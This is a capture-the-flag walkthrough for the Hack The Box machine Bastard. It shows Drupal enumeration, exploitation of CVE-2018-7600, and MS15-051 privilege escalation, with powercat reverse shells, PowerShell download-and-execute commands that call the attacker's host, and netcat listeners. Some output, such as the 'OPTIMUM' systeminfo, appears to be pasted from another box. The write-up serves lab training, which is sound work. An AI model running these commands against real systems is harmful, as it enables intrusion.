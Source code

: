 # \_\__LeeCyberSec_\_\_
| About Author | **Hack The Box Walkthrough** |
| :-------------------------------- |-------------------------------|
| **I'm Hades - Red/purple teamer** <br> `Email:` [tuvn@protonmail.com](mailto:tuvn@protonmail.com) <br> <br> `Platform:` [HackTheBox](https://www.hackthebox.eu/profile/167764) \|\| [TryHackMe](https://tryhackme.com/p/leecybersec) \|\| [PentesterLab](https://pentesterlab.com/profile/leecybersec) <br> <br> <img src="http://www.hackthebox.eu/badge/image/167764" alt="Hack The Box"> <br> <br> *Support me at [buymeacoffee](https://www.buymeacoffee.com/leecybersec)* <br> <a href='https://www.buymeacoffee.com/leecybersec' target="blank"><img src="images/bymeacoffee.png" width="200"/></a> | ![](images/1.png) |

## Information Gathering

### Openning Services

```
### Port Scanning ############################
nmap -sS -p- --min-rate 1000 10.10.10.9 | grep ^[0-9] | cut -d '/' -f1 | tr '\n' ',' | sed s/,$//

[+] Openning ports: 80,135,49154

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.10.9 -p80,135,49154
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-05 00:41 +07
Nmap scan report for 10.10.10.9
Host is up (0.23s latency).

PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
|_http-generator: Drupal 7 (http://drupal.org)
| http-methods: 
|_  Potentially risky methods: TRACE
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 84.46 seconds
```

### Drupal Application

![](images/2.png)

I enum web with `curl -I` command and `gobuster` to list hidden in the sevrer.

```
### Web Enumeration (80) ############################

[+] Header
HTTP/1.1 200 OK
Cache-Control: no-cache, must-revalidate
Content-Length: 0
Content-Type: text/html; charset=utf-8
Content-Language: en
Expires: Sun, 19 Nov 1978 05:00:00 GMT
Server: Microsoft-IIS/7.5
X-Powered-By: PHP/5.3.28
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
X-Generator: Drupal 7 (http://drupal.org)
X-Powered-By: ASP.NET
Date: Sun, 04 Apr 2021 15:31:45 GMT
```

I enum at CHANGELOG.txt and get the Drupal version 7.54

```
┌──(Hades㉿10.10.14.5)-[0.3:39.4]~/payload/php
└─$ curl http://10.10.10.9/CHANGELOG.txt

Drupal 7.54, 2017-02-01
-----------------------
<snip>
```

I also using [droopescan](https://github.com/droope/droopescan) to scan Drupal

```
┌──(Hades㉿10.10.14.5)-[0.3:39.3]~/walkthrough/hackthebox/bastard
└─$ droopescan scan drupal -u 10.10.10.9
[+] Plugins found:                                                              
    <snip>

[+] Themes found:
    seven http://10.10.10.9/themes/seven/
    garland http://10.10.10.9/themes/garland/

[+] Possible version(s):
    7.54

[+] Possible interesting urls found:
    Default changelog file - http://10.10.10.9/CHANGELOG.txt
    Default admin - http://10.10.10.9/user/login

[+] Scan finished (0:57:41.063650 elapsed)
```

Using `searchsploit` to find open exploit

```
┌──(Hades㉿10.10.14.5)-[0.3:44.7]~/walkthrough/hackthebox/bastard
└─$ searchsploit Drupal 7.54
------------------------------------------------ ---------------------------------
 Exploit Title                                  |  Path
------------------------------------------------ ---------------------------------
<snip>
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalged | php/remote/44482.rb
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalged | php/webapps/44448.py
<snip>
------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

## Foothold

### CVE-2018-7600

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/bastard)

At exploit `php/webapps/44448.py`, I know that this is exploit for CVE-2018-7600, but Drupal 7.x have the vulberability at form `user_pass` and inject code in `name`. Find some exploit in google and I found [drupa7-CVE-2018-7600.py](https://github.com/pimps/CVE-2018-7600/blob/master/drupa7-CVE-2018-7600.py)

Let's execute `drupa7-CVE-2018-7600.py` with powershell command to download and execute ps1 shell file.

Create powershell reverse shell with powercat.

```
┌──(Hades㉿10.10.14.5)-[0.1:13.9]~/walkthrough/hackthebox/bastard
└─$ pwsh
PowerShell 7.1.2
<snip>       

PS /<snip> . ./powercat.ps1
PS /<snip> powercat -c 10.10.14.5 -p 443 -e cmd.exe -g > shell.ps1
```

At kali machine, create a http server and a listener.

```
┌──(Hades㉿10.10.14.5)-[0.1:14.7]~/walkthrough/hackthebox/optimum
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.8 - - [04/Apr/2021 21:15:52] "GET /shell.ps1 HTTP/1.1" 200 -
```

```
┌──(Hades㉿10.10.14.5)-[0.3:45.3]~/walkthrough/hackthebox/bastard
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.9] 59994
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\inetpub\drupal-7.54>whoami
whoami
nt authority\iusr
```

Last step, execute payload with python3.

```
┌──(Hades㉿10.10.14.5)-[0.1:14.8]~/walkthrough/hackthebox/bastard
└─$ cmd="powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.14.5/shell.ps1')"

┌──(Hades㉿10.10.14.5)-[0.3:45.0]~/walkthrough/hackthebox/bastard
└─$ python3 drupa7-CVE-2018-7600.py http://10.10.10.9 -c "$cmd"

=============================================================================
|          DRUPAL 7 <= 7.57 REMOTE CODE EXECUTION (CVE-2018-7600)           |
|                              by pimps                                     |
=============================================================================

[*] Poisoning a form and including it in cache.
[*] Poisoned form ID: form-73yATyI9zdwYMcsgDi-HaDUQOoYqlhiLL-ry_fEAw1M
[*] Triggering exploit to execute: powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.14.5/shell.ps1')
```

## Privilege Escalation

### CVE-2015-1701

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/bastard)

```
C:\Users\kostas\Desktop>systeminfo
systeminfo

Host Name:                 OPTIMUM
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
<snip>
System Type:               x64-based
<snip>
```

Search around the internet, I found MS15-051 vulnerbility for this system. Download and execute file `MS15-051-KB3045171.zip` at [poc](https://github.com/leecybersec/windows-kernel-exploits/blob/master/MS15-051/MS15-051-KB3045171.zip).

```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.5/ms15-051x64.exe','C:\inetpub\drupal-7.54\ms15-051x64.exe')"
```

```
C:\inetpub\drupal-7.54>ms15-051x64.exe "powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.14.5/shell.ps1')"
ms15-051x64.exe "powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.14.5/shell.ps1')"
[#] ms15-051 fixed by zcgonvh
[!] process with pid: 1076 created.
==============================
```

Listener in kali machine

```
┌──(Hades㉿10.10.14.5)-[0.3:45.9]~/walkthrough/hackthebox/bastard
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.9] 53968
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\inetpub\drupal-7.54>whoami
whoami
nt authority\system
```